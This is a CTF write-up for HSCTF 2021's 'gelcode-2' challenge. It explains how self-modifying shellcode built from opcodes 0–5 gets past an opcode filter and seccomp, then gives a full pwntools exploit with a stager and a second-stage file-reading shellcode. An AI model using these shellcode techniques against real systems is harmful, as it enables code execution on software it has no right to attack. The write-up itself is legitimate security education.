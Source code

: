 I did the gelcode challenge in HSCTF 2021 in solo, but did not finish it before CTF's end... 

this one was based on first gelcode, but even more restricted, you can only use opcodes values from 0 to 5..

there was also a seccomp in place

[![https://imgur.com/6hYpm4F.png](https://imgur.com/6hYpm4F.png)](https://imgur.com/6hYpm4F.png)

which only allows open, read, write syscalls

as often for this kind challenge, the solution, is escape as soon as you can from this hell..

with a read syscall, to read a unrestricted shellcode..

for this we need at minimum, to have:
* eax = 0
* rsi pointing to a RWX buffer
* rdi = 0
* and rdx containing an enough big value (at least as big as our shellcode, but can be bigger)

to complicate things, all the registers are set to 0x1337133713371337 before calling our shellcode, even rsp,

so we can not use stack.

the solution, in our case is self modifying code,

we are going to generate the opcodes we need, to bypass the restrictions in place.

we will use mainly:

```add eax,dword value   # opcode 05 val val val val```

to modify eax, (as we are in 64bit , the upper 32bits of rax will be cleared by using 32 bit arithmetic instructions)

```add al,byte value   # opcode 04 val```

to modify al only

```add dword[rip+0],eax   # opcode 01 05 00 00 00 00```

to modify next instruction (rip+0) by adding eax to values in place, with this one we can create instructions with any opcodes we want

```add byte[rip+0],al   # opcode 00 05 00 00 00 00```

to modify next instruction (rip+0) by adding al to value in place, with this one also we can create instructions with any opcodes we want

that's all we need !!!

first we create an opcode lea rsi,[rip] to make rsi points to ourself

then mov edx, 0x400

mov edi,0

then xor eax,eax / syscall to call the read syscall reading data on ourselves,

and replace the actual restricted shellcode by a second one, unrestricted,

where we can do an open/read/write shellcode to dump the flag...

I got first blood on this one (yes a bit proud :) )

with our team "Sentry Up Before You Nops Nops" --> french super team...cream of the cream...


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./gelcode-2')
host, port = "mc.ax", "31034"

# from a src eax, calculate increment of each byte to read dest eax, and emit correct opcodes for it
def equalize(src, dst):
  ret = ''
  ov0 = 0
  ov1 = 0
  ov2 = 0
  d0 = dst & 0xff
  d1 = (dst>>8)&0xff
  d2 = (dst>>16)&0xff
  d3 = (dst>>24)&0xff
  s0 = src & 0xff
  s1 = (src>>8)&0xff
  s2 = (src>>16)&0xff
  s3 = (src>>24)&0xff
  if (d0<s0):
    d0 += 0x100
    ov0 = 1
    s1 += 1
  if (d1<s1):
    d1 += 0x100
    ov1 = 1
    s2 += 1
  if (d2<s2):
    d2 += 0x100
    ov2 = 1
    s3 += 1
  if (d3<s3):
    d3 += 0x100

  while True:
    if ((s0 == d0) and (s1 == d1) and (s2 == d2) and (s3 == d3)):
      break
    if ((d0 - s0) > 5):
      o0 = 5
    else:
      o0 = d0 - s0
    if ((d1 - s1) > 5):
      o1 = 5
    else:
      o1 = d1 - s1
    if ((d2 - s2) > 5):
      o2 = 5
    else:
      o2 = d2 - s2
    if ((d3 - s3) > 5):
      o3 = 5
    else:
      o3 = d3 - s3
    s0 += o0
    s1 += o1
    s2 += o2
    s3 += o3
    ret += 'add eax,0x0'+str(o3)+'0'+str(o2)+'0'+str(o1)+'0'+str(o0)+'\n'
  return ret

# create lea rsi,[rip] opcode
sc = equalize(0x13371337,0x3088438b)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5,0,0,0,0\n'
sc += 'add al,5\n'*8
sc += 'add al,2\n'
#create mov edx, 0x400    opcode
sc += 'add [rip+0x0],al\n'
sc += '.byte 5,0,4,0,0\n'
sc += 'add al,5\n'
# create mov edi,0   opcode
sc += 'add [rip+0],al\n'
sc += '.byte 5,0,0,0,0\n'
# create xor eax,eax / syscall opcodes
sc += equalize(0x308843ba, 0xabb2c)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5\n'

shellcode = asm(sc)
print('shellcode length: '+str(len(shellcode)))

length = len(shellcode)


p = remote(host,port)
p.recvuntil('is ', drop=True)
length = 362

payload = bytearray(shellcode.ljust(length,b'\x00'))

# second shellcode, read from the first one,  simple open('flag.txt') , read(), write it to stdout   (if program does not ouput to stdout try other fds 0,1,2,3,4,5,etc..)
shellcode2 = asm('''
  mov rdi,rsi
  mov rbp,rdi
  mov rsi,0
  mov rdx,0
  mov eax,2
  syscall
  mov rdi,rax
  mov rsi,rbp
  mov rdx,0x200
  mov eax,0
  syscall
next:
  mov rdx,rax
  mov rdi,1
  mov rsi,rbp
  mov eax,1
  syscall

  mov eax,60
  syscall
''')

p.sendafter('input:\n', payload)

# the flag filename is here,  normally it's in current directory on remote machine
payload = b'flag.txt\x00'
payload = payload.ljust(0x150,b'\x90')
payload += shellcode2

p.send(payload)

p.interactive()

```

